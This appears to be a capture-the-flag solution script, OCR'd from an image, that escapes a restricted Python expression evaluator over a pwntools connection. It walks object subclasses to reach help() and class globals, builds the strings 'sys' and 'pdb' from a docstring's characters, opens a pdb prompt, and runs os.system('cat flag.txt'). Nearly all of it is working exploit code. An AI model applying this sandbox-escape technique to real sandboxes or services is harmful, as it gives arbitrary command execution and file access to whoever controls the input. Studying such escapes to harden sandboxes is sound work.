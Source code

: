 ```python
# H for index of helper
helper = get_index(helper_index)
print(helper)

p.recvuntil(b">> ")
p.sendline(
    b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,H:="
    + helper.encode()
    + b",().__class__.__base__.__subclasses__()[H]()()]"
)
p.recvuntil(b"help> ")
p.sendline(b"pdb")
p.recvuntil(b"help> ")
p.sendline(b"quit")

# find help text of helper
p.recvuntil(b">> ")
p.sendline(
    b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,H:="
    + helper.encode()
    + b",S:=().__class__.__base__.__subclasses__()[H].__doc__]"
)
help_text = eval(p.recvline().decode())[-1]

# P for index of printer

printer = get_index(printer_index)
print(printer)


# synthesize "sys" and "pdb"
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p.recvuntil(b">> ")
p.sendline(
    b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,H:="
    + helper.encode()
    + b",P:="
    + printer.encode()
    + b",S:=().__class__.__base__.__subclasses__()[H].__doc__,().__class__.__base__.__subclasses__()[P].__init__.__globals__["
    + synthesize("sys").encode()
    + b"].modules["
    + synthesize("pdb").encode()
    + b"].set_trace()]"
)
p.recvuntil(b"(Pdb) ")
p.sendline(
    (
        '().__class__.__base__.__subclasses__()['
        + str(printer_index)
        + '].__init__.__globals__["sys"].modules["os"].system("cat flag.txt")'
    ).encode()
)
p.interactive()
```
